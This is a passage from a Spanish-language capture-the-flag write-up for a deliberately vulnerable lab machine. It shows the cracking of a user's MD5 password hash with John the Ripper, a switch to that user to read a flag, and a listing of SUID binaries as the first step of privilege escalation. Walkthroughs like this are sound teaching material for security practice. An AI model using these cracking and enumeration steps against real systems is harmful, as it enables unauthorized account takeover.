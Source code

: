 ```bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e400****************
```

Procedemos a crackear la contraseña con la herramienta **John the Ripper** especificando el formato respectivo.

```bash
❯ john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)     
1g 0:00:00:00 DONE (2023-04-06 01:04) 100.0g/s 4070Kp/s 4070Kc/s 4070KC/s bonjour1..teletubbies
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Podemos observar que hemos obtenido con éxito la contraseña en texto plano. A continuación, podemos cambiar al usuario `robot` proporcionando la contraseña obtenida.

```bash
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

Como usuario `robot` ya podemos leer la segunda flag.

```bash
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694****************
```

## Escalación de privilegios

---

Si ejecutamos el siguiente comando para obtener la lista de los binarios con permisos **SUID**, obtenemos los siguientes resultados:

```bash
find / -perm -4000 -uid 0 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```